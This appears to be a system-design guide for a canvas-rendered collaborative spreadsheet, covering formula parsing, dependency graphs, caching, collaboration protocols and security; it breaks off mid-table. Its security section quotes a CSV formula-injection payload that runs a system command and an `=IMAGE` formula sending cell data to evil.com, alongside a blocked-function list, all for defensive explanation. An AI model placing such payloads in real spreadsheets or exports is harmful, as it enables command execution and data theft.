

## Problem Statement

A spreadsheet application is one of the most complex frontend systems ever built. Google Sheets processes **5 billion cells edited per day** across 2 billion spreadsheets. Excel Online supports documents with **16,384 columns × 1,048,576 rows** — over 17 billion potential cells per sheet. Airtable handles structured data for 300,000+ organizations.

The core challenge: render a virtually infinite grid performantly, evaluate a dependency graph of formulas in real-time, support collaborative editing with conflict resolution, and maintain sub-frame rendering latency while the user scrolls through millions of cells.

This problem tests your ability to design:

- A **canvas-based rendering engine** that outperforms DOM by 100x for grid rendering
- A **formula engine** with lexer → parser → AST → evaluator pipeline
- A **dependency DAG** with topological sort and circular reference detection
- **Incremental recalculation** — only re-evaluate dirty cells
- **Real-time collaboration** using OT or CRDT at cell granularity
- **Virtualized viewport** rendering only visible cells from datasets of 1M+ rows

Real-world implementations: Google Sheets, Microsoft Excel Online, Airtable, Notion Tables, Rows.com, Smartsheet.

---

## Requirements Exploration

### Functional Requirements

| #     | Requirement                                                              | Priority | Complexity |
| ----- | ------------------------------------------------------------------------ | -------- | ---------- |
| FR-1  | Render a grid of cells (columns A–Z…, rows 1–N) with canvas              | P0       | High       |
| FR-2  | Edit cell values (text, numbers, dates, booleans)                        | P0       | Medium     |
| FR-3  | Formula support (`=SUM(A1:A100)`, `=VLOOKUP(...)`, nested)               | P0       | Very High  |
| FR-4  | Cell formatting (bold, italic, color, borders, alignment, number format) | P0       | Medium     |
| FR-5  | Selection model (single, range, multi-range, keyboard extend)            | P0       | High       |
| FR-6  | Copy/paste (internal, cross-sheet, external clipboard)                   | P0       | High       |
| FR-7  | Column/row resize with drag handles                                      | P1       | Medium     |
| FR-8  | Undo/redo with full operation history                                    | P1       | High       |
| FR-9  | Real-time collaborative editing                                          | P1       | Very High  |
| FR-10 | Sort, filter, and find/replace                                           | P1       | Medium     |
| FR-11 | Freeze rows/columns (panes)                                              | P2       | Medium     |
| FR-12 | Conditional formatting rules                                             | P2       | Medium     |
| FR-13 | Data validation (dropdowns, constraints)                                 | P2       | Medium     |
| FR-14 | Charts and visualizations from cell data                                 | P3       | High       |

### Non-Functional Requirements

| NFR                    | Target                         | Rationale                             |
| ---------------------- | ------------------------------ | ------------------------------------- |
| First Contentful Paint | < 1.5s                         | Grid must appear immediately          |
| Scroll frame rate      | 60 FPS (16.6ms budget)         | Canvas repaint must not drop frames   |
| Formula recalculation  | < 50ms for 10K dependent cells | User perceives instant feedback       |
| Keystroke-to-render    | < 16ms                         | Typing must feel native               |
| Collaboration latency  | < 200ms (p95)                  | Cursors and edits appear near-instant |
| Maximum sheet size     | 1M rows × 26K columns          | Match Excel Online capabilities       |
| Offline support        | Full edit + sync on reconnect  | Progressive enhancement               |
| Memory usage           | < 500MB for 1M-cell sheet      | Avoid OOM on typical hardware         |
| Bundle size            | < 250KB initial (gzipped)      | Formula engine lazy-loaded            |

---

## Capacity Estimation & Constraints

**Cell data budget** for a 1M-row × 100-column sheet (100M cells):

```
Per-cell memory (sparse storage, only populated cells):
- Average populated cells: 5% = 5,000,000 cells
- Per cell object: ~120 bytes (value + formula + format ref + metadata)
- Total cell data: 5M × 120B = 600MB (too much — need compression)

Optimized with column-oriented storage + shared format refs:
- Value storage: 5M × 24B avg = 120MB
- Format table (shared): ~50KB (256 unique formats)
- Formula ASTs (10% of cells): 500K × 80B = 40MB
- Dependency graph edges: 2M edges × 16B = 32MB
- Total working memory: ~200MB ✓
```

**Rendering budget** per frame (16.6ms at 60 FPS):

```
Visible viewport: 50 rows × 20 columns = 1,000 cells
Overscan buffer: +10 rows × +5 cols = 1,500 cells total
Canvas draw calls per cell: 3 (background, text, border)
Total draw calls: 4,500
Time per draw call budget: 16.6ms / 4,500 = 3.7μs per call ✓
```

**Collaboration message throughput:**

```
Active users per sheet: 50 concurrent (Google Sheets limit)
Edits per user per second: 2 (typing bursts)
Messages per second: 100
Payload per message: ~200 bytes
Bandwidth per client: 20KB/s inbound (cursor + edits)
```

---

## Architecture / High-Level Design

### Rendering Strategy

<Callout>
  DOM-based rendering fails catastrophically for spreadsheets. A 50×20 visible
  grid requires 1,000 DOM elements minimum — each with text, borders, and
  backgrounds. With selection highlights, frozen panes, and overlays, this
  balloons to 5,000+ elements. Canvas reduces this to a single composite buffer
  with GPU-accelerated drawing.
</Callout>

The rendering pipeline uses a **layered canvas architecture**:

```
┌─────────────────────────────────────────────────┐
│ Layer 4: Overlay Canvas (selection, drag, resize)│
├─────────────────────────────────────────────────┤
│ Layer 3: UI Canvas (scrollbars, headers, freeze) │
├─────────────────────────────────────────────────┤
│ Layer 2: Content Canvas (cell values, formulas)  │
├─────────────────────────────────────────────────┤
│ Layer 1: Grid Canvas (lines, backgrounds, borders│
└─────────────────────────────────────────────────┘
```

Each layer repaints independently. Scrolling only invalidates Layers 1-2. Selection changes only repaint Layer 4. This eliminates unnecessary redraws.

### Navigation Model

```
Routes:
/sheets                          → Sheet list (dashboard)
/sheets/:id                      → Sheet editor (single sheet)
/sheets/:id/tab/:tabId           → Specific tab within workbook

URL state encoding:
/sheets/abc123?cell=B7&range=A1:D10&zoom=125

No page transitions during editing — SPA with History API for deep linking.
```

### System Architecture Diagram ASCII



### Component Architecture

```
SpreadsheetApp
├── Toolbar (formatting, formula bar)
├── FormulaBar (active cell display + edit)
├── SheetViewport
│   ├── ColumnHeaders (canvas — frozen if needed)
│   ├── RowHeaders (canvas — frozen if needed)
│   ├── GridCanvas (main cell content — 4 layers)
│   ├── CellEditor (floating <textarea> over active cell)
│   ├── SelectionOverlay (canvas layer for blue ranges)
│   └── CollaboratorCursors (colored borders + name labels)
├── SheetTabs (bottom tab bar)
├── ContextMenu (right-click actions)
└── Sidebar (conditional format, chart, validation panels)
```

### State Management Strategy

```typescript
// Core state split into focused stores for independent updates

// 1. Cell Data Store — the source of truth for all cell content
interface CellDataStore {
  cells: Map<string, CellData>; // "A1" → CellData
  formulas: Map<string, FormulaAST>; // cells with formulas
  dependencyGraph: DependencyDAG; // formula dependencies
  formats: FormatTable; // shared format objects
  columnWidths: Float32Array; // indexed by col number
  rowHeights: Float32Array; // indexed by row number
}

// 2. Viewport Store — what's currently visible
interface ViewportStore {
  scrollX: number;
  scrollY: number;
  visibleRange: CellRange; // computed from scroll + dimensions
  frozenRows: number;
  frozenCols: number;
  zoom: number;
}

// 3. Selection Store — current selection state
interface SelectionStore {
  activeCell: CellRef;
  ranges: CellRange[]; // multi-select support
  isEditing: boolean;
  editValue: string;
}

// 4. Collaboration Store — remote user state
interface CollaborationStore {
  remoteCursors: Map<string, RemoteCursor>;
  pendingOps: Operation[];
  confirmedVersion: number;
}

// 5. History Store — undo/redo
interface HistoryStore {
  undoStack: OperationBatch[];
  redoStack: OperationBatch[];
  maxDepth: number; // 100 operations
}
```

---

## Data Model / Entities

```typescript
// ═══════════════════════════════════════════════
// CELL DATA MODEL
// ═══════════════════════════════════════════════

interface CellData {
  /** Raw value entered by user (string, number, boolean, null) */
  value: CellValue;
  /** Formula string if cell contains formula (e.g., "=SUM(A1:A10)") */
  formula: string | null;
  /** Computed display value after formula evaluation */
  displayValue: string;
  /** Computed numeric value (for formula results) */
  computedValue: CellValue;
  /** Reference to shared format object */
  formatId: number;
  /** Cell-specific style overrides (sparse — most cells have none) */
  style: CellStyle | null;
  /** Data validation rule reference */
  validationId: number | null;
  /** Comment/note attached to cell */
  note: string | null;
  /** Hyperlink URL */
  hyperlink: string | null;
}

type CellValue = string | number | boolean | null | CellError;

type CellError =
  | "#VALUE!"
  | "#REF!"
  | "#NAME?"
  | "#DIV/0!"
  | "#NULL!"
  | "#N/A"
  | "#CIRCULAR!";

interface CellStyle {
  bold?: boolean;
  italic?: boolean;
  underline?: boolean;
  strikethrough?: boolean;
  fontFamily?: string;
  fontSize?: number; // points
  textColor?: string; // hex
  backgroundColor?: string; // hex
  horizontalAlign?: "left" | "center" | "right";
  verticalAlign?: "top" | "middle" | "bottom";
  wrapText?: boolean;
  borders?: CellBorders;
  numberFormat?: string; // e.g., "#,##0.00", "yyyy-mm-dd"
}

interface CellBorders {
  top?: BorderStyle;
  right?: BorderStyle;
  bottom?: BorderStyle;
  left?: BorderStyle;
}

interface BorderStyle {
  width: 1 | 2 | 3;
  style: "solid" | "dashed" | "dotted" | "double";
  color: string;
}

// ═══════════════════════════════════════════════
// CELL REFERENCE & RANGE
// ═══════════════════════════════════════════════

interface CellRef {
  col: number; // 0-indexed column
  row: number; // 0-indexed row
  sheetId?: string; // cross-sheet reference
  absoluteCol?: boolean; // $A1
  absoluteRow?: boolean; // A$1
}

interface CellRange {
  start: CellRef;
  end: CellRef;
}

// ═══════════════════════════════════════════════
// FORMULA ENGINE TYPES
// ═══════════════════════════════════════════════

type TokenType =
  | "NUMBER"
  | "STRING"
  | "BOOLEAN"
  | "CELL_REF"
  | "RANGE_REF"
  | "FUNCTION"
  | "OPERATOR"
  | "LPAREN"
  | "RPAREN"
  | "COMMA"
  | "COLON"
  | "SEMICOLON";

interface Token {
  type: TokenType;
  value: string;
  position: number;
}

type FormulaAST =
  | NumberLiteral
  | StringLiteral
  | BooleanLiteral
  | CellReference
  | RangeReference
  | FunctionCall
  | BinaryExpression
  | UnaryExpression;

interface NumberLiteral {
  type: "number";
  value: number;
}
interface StringLiteral {
  type: "string";
  value: string;
}
interface BooleanLiteral {
  type: "boolean";
  value: boolean;
}
interface CellReference {
  type: "cell_ref";
  ref: CellRef;
}
interface RangeReference {
  type: "range_ref";
  range: CellRange;
}

interface FunctionCall {
  type: "function";
  name: string; // SUM, VLOOKUP, IF, etc.
  args: FormulaAST[];
}

interface BinaryExpression {
  type: "binary";
  operator:
    | "+"
    | "-"
    | "*"
    | "/"
    | "^"
    | "&"
    | "="
    | "<>"
    | "<"
    | ">"
    | "<="
    | ">=";
  left: FormulaAST;
  right: FormulaAST;
}

interface UnaryExpression {
  type: "unary";
  operator: "-" | "+" | "%";
  operand: FormulaAST;
}

// ═══════════════════════════════════════════════
// DEPENDENCY GRAPH
// ═══════════════════════════════════════════════

interface DependencyDAG {
  /** Cell → cells it depends on (predecessors) */
  dependencies: Map<string, Set<string>>;
  /** Cell → cells that depend on it (successors/dependents) */
  dependents: Map<string, Set<string>>;
  /** Cells marked dirty needing recalculation */
  dirtySet: Set<string>;
  /** Topological order cache (invalidated on graph mutation) */
  topoOrder: string[] | null;
}

// ═══════════════════════════════════════════════
// COLLABORATION TYPES
// ═══════════════════════════════════════════════

type Operation =
  | SetCellValueOp
  | SetCellFormatOp
  | InsertRowOp
  | DeleteRowOp
  | InsertColOp
  | DeleteColOp
  | ResizeRowOp
  | ResizeColOp
  | MoveRangeOp;

interface SetCellValueOp {
  type: "set_value";
  cell: string; // "A1"
  oldValue: CellValue;
  newValue: CellValue;
  oldFormula: string | null;
  newFormula: string | null;
  timestamp: number;
  userId: string;
}

interface SetCellFormatOp {
  type: "set_format";
  range: CellRange;
  property: keyof CellStyle;
  oldValue: unknown;
  newValue: unknown;
  timestamp: number;
  userId: string;
}

interface InsertRowOp {
  type: "insert_row";
  index: number;
  count: number;
  timestamp: number;
  userId: string;
}

interface DeleteRowOp {
  type: "delete_row";
  index: number;
  count: number;
  deletedData: Map<string, CellData>; // for undo
  timestamp: number;
  userId: string;
}

// ═══════════════════════════════════════════════
// UNDO/REDO
// ═══════════════════════════════════════════════

interface OperationBatch {
  id: string;
  operations: Operation[];
  timestamp: number;
  description: string; // "Paste 50 cells", "Format range"
}

// ═══════════════════════════════════════════════
// DOCUMENT MODEL
// ═══════════════════════════════════════════════

interface Spreadsheet {
  id: string;
  title: string;
  ownerId: string;
  sheets: Sheet[];
  namedRanges: NamedRange[];
  createdAt: number;
  updatedAt: number;
  version: number; // OT version counter
}

interface Sheet {
  id: string;
  name: string;
  cells: Map<string, CellData>;
  columnWidths: number[]; // default 100px
  rowHeights: number[]; // default 21px
  frozenRows: number;
  frozenCols: number;
  conditionalFormats: ConditionalFormat[];
  validationRules: ValidationRule[];
  mergedCells: CellRange[];
}

interface NamedRange {
  name: string;
  range: CellRange;
  sheetId: string;
}

interface RemoteCursor {
  userId: string;
  displayName: string;
  color: string; // assigned color
  activeCell: CellRef;
  selection: CellRange | null;
  lastSeen: number;
}
```

---

## Interface Definition (API)

```typescript
// ═══════════════════════════════════════════════
// REST API — Document Operations
// ═══════════════════════════════════════════════

// GET /api/sheets/:id
// Load sheet metadata + initial visible chunk
interface GetSheetResponse {
  spreadsheet: Spreadsheet;
  initialChunk: {
    range: CellRange; // typically A1:Z100
    cells: Record<string, CellData>;
  };
  collaborators: RemoteCursor[];
  version: number;
}

// POST /api/sheets/:id/cells/batch
// Bulk cell update (for paste operations)
interface BatchCellUpdateRequest {
  operations: SetCellValueOp[];
  baseVersion: number;
}

interface BatchCellUpdateResponse {
  accepted: boolean;
  newVersion: number;
  conflicts?: ConflictResolution[];
}

// GET /api/sheets/:id/chunk?startRow=1000&endRow=1100&startCol=0&endCol=50
// Lazy-load cell data for scrolled regions
interface ChunkResponse {
  range: CellRange;
  cells: Record<string, CellData>;
  totalRows: number;
  totalCols: number;
}

// ═══════════════════════════════════════════════
// WEBSOCKET PROTOCOL — Real-time Collaboration
// ═══════════════════════════════════════════════

// Client → Server messages
type ClientMessage =
  | { type: "operation"; op: Operation; baseVersion: number }
  | { type: "cursor_move"; cell: CellRef; selection: CellRange | null }
  | { type: "request_chunk"; range: CellRange }
  | { type: "ack"; version: number };

// Server → Client messages
type ServerMessage =
  | { type: "operation"; op: Operation; version: number; userId: string }
  | { type: "ack"; version: number }
  | { type: "cursor_update"; userId: string; cursor: RemoteCursor }
  | { type: "user_join"; user: RemoteCursor }
  | { type: "user_leave"; userId: string }
  | { type: "chunk_data"; range: CellRange; cells: Record<string, CellData> }
  | { type: "conflict"; resolution: ConflictResolution };

interface ConflictResolution {
  cell: string;
  yourOp: Operation;
  winningOp: Operation;
  resolvedValue: CellValue;
}

// ═══════════════════════════════════════════════
// FORMULA ENGINE API (Web Worker interface)
// ═══════════════════════════════════════════════

// Main thread → Worker
type FormulaWorkerRequest =
  | { type: "evaluate"; cellId: string; formula: string; context: EvalContext }
  | { type: "recalculate"; dirtyCells: string[]; context: EvalContext }
  | { type: "parse"; formula: string }
  | { type: "detect_circular"; graph: SerializedDAG };

// Worker → Main thread
type FormulaWorkerResponse =
  | { type: "result"; cellId: string; value: CellValue; displayValue: string }
  | { type: "batch_result"; results: Map<string, CellValue> }
  | { type: "parse_result"; ast: FormulaAST; dependencies: CellRef[] }
  | { type: "circular_detected"; cycle: string[] }
  | { type: "error"; cellId: string; error: CellError };

interface EvalContext {
  getCellValue: (ref: string) => CellValue;
  getCellRange: (range: CellRange) => CellValue[][];
  namedRanges: Map<string, CellRange>;
}
```

---

## Caching Strategy

### Client-Side Caching

```typescript
class CellCache {
  // Layer 1: Active viewport cells (hot — always in memory)
  private viewportCells: Map<string, CellData> = new Map();

  // Layer 2: Recently visited regions (warm — LRU eviction)
  private regionCache: LRUCache<string, Map<string, CellData>>;

  // Layer 3: IndexedDB persistence (cold — survives reload)
  private persistentStore: IDBDatabase;

  constructor() {
    // Keep 50 regions (each 100×50 cells) in memory = 250K cells max
    this.regionCache = new LRUCache({ maxSize: 50 });
  }

  async getCell(ref: string): Promise<CellData | null> {
    // Check hot cache first
    if (this.viewportCells.has(ref)) return this.viewportCells.get(ref)!;

    // Check warm LRU
    const region = this.getRegionKey(ref);
    const cached = this.regionCache.get(region);
    if (cached?.has(ref)) return cached.get(ref)!;

    // Fall through to IndexedDB
    return this.loadFromPersistent(ref);
  }

  // Viewport scroll → prefetch adjacent regions
  prefetchForScroll(direction: "up" | "down" | "left" | "right"): void {
    const adjacentRegion = this.computeAdjacentRegion(direction);
    if (!this.regionCache.has(adjacentRegion)) {
      this.requestChunk(adjacentRegion); // async fetch from server
    }
  }
}
```

**Canvas rendering cache:**

```typescript
class RenderCache {
  // Pre-rendered text measurements (expensive — cache aggressively)
  private textMetrics: Map<string, TextMetrics> = new Map();

  // Off-screen canvas for frozen panes (don't repaint on scroll)
  private frozenRowCanvas: OffscreenCanvas;
  private frozenColCanvas: OffscreenCanvas;

  // Bitmap cache for static cell content (invalidate on edit only)
  private cellBitmapCache: Map<string, ImageBitmap> = new Map();

  measureText(text: string, font: string): TextMetrics {
    const key = `${font}|${text}`;
    if (!this.textMetrics.has(key)) {
      this.ctx.font = font;
      this.textMetrics.set(key, this.ctx.measureText(text));
    }
    return this.textMetrics.get(key)!;
  }
}
```

### CDN & Edge Caching

```
┌────────────────────────────────────────────────────────────┐
│ Cache Layer          │ What                 │ TTL           │
├──────────────────────┼──────────────────────┼───────────────┤
│ Browser Memory       │ Active viewport      │ Session       │
│ IndexedDB            │ Full sheet snapshot   │ 24h           │
│ Service Worker       │ App shell + WASM      │ Versioned     │
│ CDN (CloudFront)     │ Static assets, fonts  │ 1 year        │
│ Edge (Cloudflare)    │ Read-only sheet views │ 5 min         │
│ Origin               │ API responses         │ No cache      │
└────────────────────────────────────────────────────────────┘
```

### Cache Coherence

<Callout>
  Cell data caching in a collaborative spreadsheet requires **version-vector
  invalidation**. When a remote edit arrives via WebSocket, the client must
  invalidate exactly the affected cells in all cache layers — not flush the
  entire cache. This is critical for 1M-cell sheets where full re-fetch would be
  catastrophic.
</Callout>

```typescript
class CacheCoherence {
  private versionVector: Map<string, number> = new Map(); // cell → version

  onRemoteOperation(op: Operation, version: number): void {
    const affectedCells = this.getAffectedCells(op);

    for (const cellId of affectedCells) {
      // Invalidate all cache layers for this cell
      this.cellCache.invalidate(cellId);
      this.renderCache.invalidateCellBitmap(cellId);
      this.versionVector.set(cellId, version);
    }

    // If operation shifts rows/columns, invalidate entire regions
    if (op.type === "insert_row" || op.type === "delete_row") {
      this.invalidateRowRange(op.index, Infinity);
      this.dependencyGraph.shiftRows(op.index, op.count);
    }
  }
}
```

---

## Rendering & Performance Deep Dive

<Callout>
  The single biggest performance insight for spreadsheet rendering: **never
  iterate all cells**. With 1M rows, even a simple `for` loop over empty cells
  costs 10ms+. Every operation must be bounded by the visible viewport
  (typically 1,000–2,000 cells) or use sparse data structures that skip empty
  regions.
</Callout>

### Canvas Rendering Pipeline

```
Input Event (scroll/edit)
    │
    ▼
┌──────────────────┐
│ Compute Dirty    │  ← Which layers need repaint?
│ Regions          │     Scroll → Layer 1+2, Edit → Layer 2 only
└────────┬─────────┘
         │
         ▼
┌──────────────────┐
│ Resolve Visible  │  ← Binary search column/row boundaries
│ Cell Range       │     O(log n) — not O(n) scan
└────────┬─────────┘
         │
         ▼
┌──────────────────┐
│ Batch Draw Calls │  ← Group by style to minimize state changes
│ (backgrounds →   │     ctx.fillStyle changes are expensive
│  borders → text) │
└────────┬─────────┘
         │
         ▼
┌──────────────────┐
│ Composite Layers │  ← drawImage() each canvas layer to screen
└──────────────────┘
```

### Viewport Virtualization

```typescript
class VirtualizedGrid {
  private overscan = { rows: 10, cols: 5 };

  computeVisibleRange(
    scrollX: number,
    scrollY: number,
    viewportWidth: number,
    viewportHeight: number,
  ): VisibleRange {
    // Binary search for first visible row (variable row heights)
    const startRow = this.binarySearchRow(scrollY);
    const startCol = this.binarySearchCol(scrollX);

    // Scan forward to find last visible
    let endRow = startRow;
    let accHeight = 0;
    while (accHeight < viewportHeight && endRow < this.totalRows) {
      accHeight += this.rowHeights[endRow++];
    }

    let endCol = startCol;
    let accWidth = 0;
    while (accWidth < viewportWidth && endCol < this.totalCols) {
      accWidth += this.colWidths[endCol++];
    }

    return {
      startRow: Math.max(0, startRow - this.overscan.rows),
      endRow: Math.min(this.totalRows, endRow + this.overscan.rows),
      startCol: Math.max(0, startCol - this.overscan.cols),
      endCol: Math.min(this.totalCols, endCol + this.overscan.cols),
    };
  }

  private binarySearchRow(scrollY: number): number {
    // Prefix sum array for O(log n) row lookup
    let lo = 0,
      hi = this.rowPrefixSums.length - 1;
    while (lo < hi) {
      const mid = (lo + hi) >>> 1;
      if (this.rowPrefixSums[mid] < scrollY) lo = mid + 1;
      else hi = mid;
    }
    return lo;
  }
}
```

### Formula Engine Pipeline

```
"=SUM(A1:A10) + VLOOKUP(B2, Data!A:C, 3, FALSE)"
         │
         ▼
┌──────────────────┐
│    TOKENIZER     │  → [FUNCTION:"SUM", LPAREN, RANGE:"A1:A10", RPAREN,
│   (Lexer)        │     OPERATOR:"+", FUNCTION:"VLOOKUP", ...]
└────────┬─────────┘
         │
         ▼
┌──────────────────┐
│     PARSER       │  → BinaryExpression {
│  (Recursive      │       left: FunctionCall { name: "SUM", args: [RangeRef] },
│   Descent)       │       operator: "+",
└────────┬─────────┘       right: FunctionCall { name: "VLOOKUP", args: [...] }
         │             }
         ▼
┌──────────────────┐
│  DEPENDENCY      │  → Extract: A1, A2, ..., A10, B2, Data!A:C
│  EXTRACTION      │     Add edges to DAG
└────────┬─────────┘
         │
         ▼
┌──────────────────┐
│   EVALUATOR      │  → Walk AST, resolve references, call builtins
│  (Tree-walking)  │     Return: computed value
└──────────────────┘
```

### Incremental Recalculation

```typescript
class IncrementalRecalc {
  recalculate(editedCell: string, newValue: CellValue): void {
    // 1. Mark edited cell dirty
    this.dag.dirtySet.add(editedCell);

    // 2. Propagate dirty flag to all dependents (BFS)
    const queue: string[] = [editedCell];
    while (queue.length > 0) {
      const cell = queue.shift()!;
      const dependents = this.dag.dependents.get(cell) || new Set();
      for (const dep of dependents) {
        if (!this.dag.dirtySet.has(dep)) {
          this.dag.dirtySet.add(dep);
          queue.push(dep);
        }
      }
    }

    // 3. Topological sort dirty cells only
    const evalOrder = this.topologicalSort(this.dag.dirtySet);

    // 4. Detect circular references
    if (evalOrder === null) {
      this.markCircularCells();
      return;
    }

    // 5. Evaluate in dependency order
    for (const cellId of evalOrder) {
      const ast = this.formulas.get(cellId);
      if (ast) {
        const result = this.evaluator.evaluate(ast);
        this.cells.get(cellId)!.computedValue = result;
        this.cells.get(cellId)!.displayValue = this.format(result, cellId);
      }
    }

    // 6. Clear dirty set
    this.dag.dirtySet.clear();

    // 7. Request repaint only for cells that changed
    this.renderer.invalidateCells(evalOrder);
  }

  private topologicalSort(cells: Set<string>): string[] | null {
    const inDegree = new Map<string, number>();
    const subgraph = new Map<string, Set<string>>();

    // Build subgraph of dirty cells only
    for (const cell of cells) {
      const deps = this.dag.dependencies.get(cell) || new Set();
      const relevantDeps = new Set([...deps].filter((d) => cells.has(d)));
      subgraph.set(cell, relevantDeps);
      inDegree.set(cell, relevantDeps.size);
    }

    // Kahn's algorithm
    const queue = [...cells].filter((c) => (inDegree.get(c) || 0) === 0);
    const sorted: string[] = [];

    while (queue.length > 0) {
      const node = queue.shift()!;
      sorted.push(node);
      const dependents = this.dag.dependents.get(node) || new Set();
      for (const dep of dependents) {
        if (cells.has(dep)) {
          inDegree.set(dep, (inDegree.get(dep) || 0) - 1);
          if (inDegree.get(dep) === 0) queue.push(dep);
        }
      }
    }

    // If sorted doesn't contain all cells → circular reference
    return sorted.length === cells.size ? sorted : null;
  }
}
```

### Performance Targets

| Operation                 | Budget  | Technique                                       |
| ------------------------- | ------- | ----------------------------------------------- |
| Scroll (repaint)          | < 8ms   | Canvas layer compositing, skip unchanged layers |
| Cell edit                 | < 16ms  | Single cell repaint + async recalc              |
| Formula recalc (100 deps) | < 5ms   | Incremental dirty propagation                   |
| Formula recalc (10K deps) | < 50ms  | Web Worker + batch evaluation                   |
| Paste 10K cells           | < 200ms | Chunked write + deferred recalc                 |
| Initial load (10K cells)  | < 800ms | Stream chunks, render progressively             |
| Column resize (drag)      | 60 FPS  | Only repaint affected column via clip rect      |

---

## Security Deep Dive

### Threat Model

| Threat                 | Vector                              | Impact              | Mitigation                                                      |
| ---------------------- | ----------------------------------- | ------------------- | --------------------------------------------------------------- |
| Formula injection      | `=IMPORTRANGE()` to exfiltrate data | Data leak           | Sandbox formula evaluation, whitelist functions                 |
| XSS via cell content   | `<script>` in cell rendered to DOM  | Account takeover    | Canvas rendering eliminates HTML parsing; sanitize editor input |
| CSRF on API            | Forged save/delete requests         | Data loss           | SameSite cookies + CSRF tokens                                  |
| WebSocket hijacking    | Steal collab session                | Unauthorized edits  | WSS + auth token in handshake                                   |
| Clipboard exfiltration | Malicious paste triggers data send  | Data leak           | CSP blocks external requests                                    |
| Denial of service      | Formula with exponential expansion  | Browser freeze      | Evaluation timeout (5s) + depth limit (50)                      |
| Shared link abuse      | Public link enumeration             | Unauthorized access | Unguessable UUIDs + rate limiting                               |
| Memory exhaustion      | Paste 10M cells                     | Tab crash           | Cell count limit per sheet (5M) + chunked paste                 |

### CSP

```http
Content-Security-Policy:
  default-src 'self';
  script-src 'self' 'wasm-unsafe-eval';
  style-src 'self' 'unsafe-inline';
  connect-src 'self' wss://*.sheets.example.com;
  img-src 'self' data: blob:;
  worker-src 'self' blob:;
  frame-src 'none';
  object-src 'none';
  base-uri 'self';
```

Key decisions:

- `wasm-unsafe-eval` for formula engine compiled to WebAssembly
- `worker-src blob:` for dynamically created Web Workers
- `frame-src 'none'` prevents embedding in malicious frames
- No `unsafe-eval` — formula engine uses AST interpretation, not `eval()`

### Formula Injection

<Callout>
  The most underestimated security risk in spreadsheets is **formula
  injection**. In CSV exports, a cell containing `=cmd|'/C calc'!A0` can execute
  system commands when opened in Excel. In web spreadsheets, formulas like
  `=IMAGE("https://evil.com/track?data=" & A1)` can exfiltrate data. Every
  formula function must be whitelisted and sandboxed.
</Callout>

```typescript
class FormulaSecuritySandbox {
  private readonly ALLOWED_FUNCTIONS = new Set([
    "SUM",
    "AVERAGE",
    "COUNT",
    "MAX",
    "MIN",
    "IF",
    "VLOOKUP",
    "HLOOKUP",
    "INDEX",
    "MATCH",
    "CONCATENATE",
    "LEFT",
    "RIGHT",
    "MID",
    "LEN",
    "TRIM",
    "UPPER",
    "LOWER",
    "ROUND",
    "ABS",
    // ... ~200 safe functions
  ]);

  private readonly BLOCKED_FUNCTIONS = new Set([
    "IMPORTRANGE",
    "IMPORTXML",
    "IMPORTHTML",
    "IMPORTDATA",
    "IMAGE",
    "WEBSERVICE",
    "FILTERXML",
  ]);

  private readonly MAX_EVAL_DEPTH = 50;
  private readonly MAX_EVAL_TIME_MS = 5000;
  private readonly MAX_RANGE_SIZE = 1_000_000; // cells in a single range

  validateFormula(ast: FormulaAST): SecurityValidation {
    const violations: string[] = [];
    this.walkAST(ast, (node) => {
      if (node.type === "function") {
        if (this.BLOCKED_FUNCTIONS.has(node.name)) {
          violations.push(`Blocked function: ${node.name}`);
        }
        if (!this.ALLOWED_FUNCTIONS.has(node.name)) {
          violations.push(`Unknown function: ${node.name}`);
        }
      }
      if (node.type === "range_ref") {
        const size = this.rangeSize(node.range);
        if (size > this.MAX_RANGE_SIZE) {
          violations.push(`Range too large: ${size} cells`);
        }
      }
    });
    return { safe: violations.length === 0, violations };
  }
}
```

### Data Protection

```typescript
// Encryption at rest for sensitive sheets
interface SheetEncryption {
  algorithm: "AES-256-GCM";
  keyDerivation: "PBKDF2";
  iterations: 600000;
  saltLength: 32;
}

// Access control model
interface SheetPermissions {
  owner: string;
  editors: string[];
  viewers: string[];
  publicAccess: "none" | "view" | "comment" | "edit";
  linkSharing: {
    enabled: boolean;
    permission: "view" | "edit";
    expiresAt: number | null;
  };
}

// Audit log for compliance
interface AuditEntry {
  timestamp: number;
  userId: string;
  action: "view" | "edit" | "share" | "export" | "delete";
  details: string;
  ipAddress: string;
  userAgent: string;
}
```

---

## Scalability & Reliability

| Failure Mode                  | Detection                      | Impact                   | Recovery                                                |
| ----------------------------- | ------------------------------ | ------------------------ | ------------------------------------------------------- |
